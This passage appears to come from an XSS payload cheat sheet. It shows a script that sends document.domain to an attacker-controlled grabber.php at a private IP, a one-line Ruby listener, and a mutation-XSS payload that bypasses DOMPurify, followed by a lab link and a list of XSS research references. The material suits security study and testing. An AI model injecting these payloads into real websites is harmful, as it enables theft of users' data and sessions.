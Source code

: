 ```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

Use browsers quirks to recreate some HTML tags when it is inside an `element.innerHTML`.

Mutated XSS from Masato Kinugawa, used against DOMPurify component on Google Search. Technical blogposts available at https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/ and https://research.securitum.com/dompurify-bypass-using-mxss/.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```


## Labs

* [PortSwigger Labs for XSS](https://portswigger.net/web-security/all-labs#cross-site-scripting)


## References

- [Abusing XSS Filter: One ^ leads to XSS(CVE-2016-3212) - Masato Kinugawa's (@kinugawamasato) - July 15, 2016](http://mksben.l0.cm/2016/07/xxn-caret.html)
- [Account Recovery XSS - Gábor Molnár - April 13, 2016](https://sites.google.com/site/bughunteruniversity/best-reports/account-recovery-xss)
- [An XSS on Facebook via PNGs & Wonky Content Types - Jack Whitton (@fin1te) - January 27, 2016](https://whitton.io/articles/xss-on-facebook-via-png-content-types/)
- [Bypassing Signature-Based XSS Filters: Modifying Script Code - PortSwigger - August 4, 2020](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-script-code)
- [Combination of techniques lead to DOM Based XSS in Google - Sasi Levi - September 19, 2016](http://sasi2103.blogspot.sg/2016/09/combination-of-techniques-lead-to-dom.html)
- [Cross-site scripting (XSS) cheat sheet - PortSwigger - September 27, 2019](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Encoding Differentials: Why Charset Matters - Stefan Schiller - July 15, 2024](https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/)
- [Facebook's Moves - OAuth XSS - Paulos Yibelo - December 10, 2015](http://www.paulosyibelo.com/2015/12/facebooks-moves-oauth-xss.html)
- [Frans Rosén on how he got Bug Bounty for Mega.co.nz XSS - Frans Rosén - February 14, 2013](https://labs.detectify.com/2013/02/14/how-i-got-the-bug-bounty-for-mega-co-nz-xss/)
- [Google XSS Turkey - Frans Rosén - June 6, 2015](https://labs.detectify.com/2015/06/06/google-xss-turkey/)
- [How I found a $5,000 Google Maps XSS (by fiddling with Protobuf) - Marin Moulinier - March 9, 2017](https://medium.com/@marin_m/how-i-found-a-5-000-google-maps-xss-by-fiddling-with-protobuf-963ee0d9caff#.cktt61q9g)
- [Killing a bounty program, Twice - Itzhak (Zuk) Avraham and Nir Goldshlager - May 2012](http://conference.hitb.org/hitbsecconf2012ams/materials/D1T2%20-%20Itzhak%20Zuk%20Avraham%20and%20Nir%20Goldshlager%20-%20Killing%20a%20Bug%20Bounty%20Program%20-%20Twice.pdf)
- [mXSS Attacks: Attacking well-secured Web-Applications by using innerHTML Mutations - Mario Heiderich, Jörg Schwenk, Tilman Frosch, Jonas Magazinius, Edward Z. Yang - September 26, 2013](https://cure53.de/fp170.pdf)
- [postMessage XSS on a million sites - Mathias Karlsson - December 15, 2016](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)
- [RPO that lead to information leakage in Google - @filedescriptor - July 3, 2016](https://web.archive.org/web/20220521125028/https://blog.innerht.ml/rpo-gadgets/)
- [Secret Web Hacking Knowledge: CTF Authors Hate These Simple Tricks - Philippe Dourassov - May 13, 2024](https://youtu.be/Sm4G6cAHjWM)